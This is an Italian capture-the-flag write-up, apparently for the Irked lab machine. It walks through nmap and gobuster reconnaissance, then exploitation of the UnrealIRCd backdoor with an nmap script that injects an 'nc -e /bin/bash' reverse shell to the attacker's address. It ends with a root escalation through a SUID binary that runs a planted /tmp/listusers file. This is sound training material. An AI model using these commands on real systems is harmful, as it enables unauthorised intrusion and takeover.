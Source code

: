 # Drive

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.117
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.051s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44361/udp6  status
|   100024  1          49390/tcp6  status
|   100024  1          55995/tcp   status
|_  100024  1          58413/udp   status
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/20%OT=22%CT=1%CU=43653%PV=Y%DS=2%DC=I%G=Y%TM=653232
OS:71%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
OS:11NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)EC
OS:N(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Provo ad eseguire una scansione completa:

```text
sudo nmap -sC -sV -O -p- -oA /usr/share/nmap/full 10.10.10.117
```

Il risultato è il seguente:

```text
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.047s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44361/udp6  status
|   100024  1          49390/tcp6  status
|   100024  1          55995/tcp   status
|_  100024  1          58413/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
55995/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/20%OT=22%CT=1%CU=40792%PV=Y%DS=2%DC=I%G=Y%TM=653232
OS:F6%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Procedo con la fase susccessiva.

## Enumeration

Innanzitutto, visito la pagina http://10.10.10.117/:

<p align="center">
  <img src="/Immagini/Linux-Box/Irked/irked-1.png" />
</p>

La scritta "IRC is almost working!" mi suggerisce di provare ad ispezionare meglio le porte attive relative al protocollo IRC (Internet Relay Chat Protocol) trovate precedentemente.

Prima di farlo però, lancio il comando _gobuster_:

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://0.0.0.0/
```

Ottenendo il seguente risultato:

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.117/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.117/manual/]
/server-status        (Status: 403) [Size: 300]
```

Provo a visistare la pagina http://10.10.10.117/manual ma non trovo nulla di interessante.

Quindi ritorno al protocollo IRC e dopo alcune ricerche, trovo questo script nmap per verificare la presenza di vulnerabilità sulle porte 6697, 8067 & 65534:

```text
nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
```

Ottengo il seguente risultato:

```text
Nmap scan report for irked.htb (10.10.10.117)
Host is up (0.048s latency).

PORT      STATE SERVICE
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
65534/tcp open  unknown
```

**Quindi la porta 8067 è vulnerabile!**

## Exploitation

Cerco di sfruttare la vulnerabilità _UnrealIRCd_ backdoor per generare una reverse shell sulla macchina _Irked_.

Quindi avvio un listener sulla porta 4444 e lancio il seguente comando:

```text
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.12 4444"  10.10.10.117
```

<p align="center">
  <img src="/Immagini/Linux-Box/Irked/irked-3.png" />
</p>

**Sono dentro!**

Ottengo una shell migliore tramite il seguente comando:

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

Provo a localizzare il primo flag tramite il comando _find_, ma scopro che questo appartiene all'utente _djmardov_.

## Privilege Escalation

Trasferisco il file _linpeas.sh_ e lo eseguo.

Trovo qualcosa di interessante nella parte relativa ai file con il bit SUID settato.

<p align="center">
  <img src="/Immagini/Linux-Box/Irked/irked-4.png" />
</p>

Provo ad eseguire il file _/usr/bin/viewuser_ ottenendo il seguente risultato:

```text
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-10-20 08:49 (:0)
sh: 1: /tmp/listusers: not found
```

Sembra che provi ad eseguire il file _/tmp/listusers_ senza però avere successo.

Controllando nella cortella _/tmp_ scopro che non esiste questo file. Quindi provvedo alla creazione di questo inserendo il comando _bash_:

```text
echo "bash" > /tmp/listusers
chmod +x /tmp/listusers
```

**Eseguo viewuser e sono root!**

<p align="center">
  <img src="/Immagini/Linux-Box/Irked/irked-5.png" />
</p>
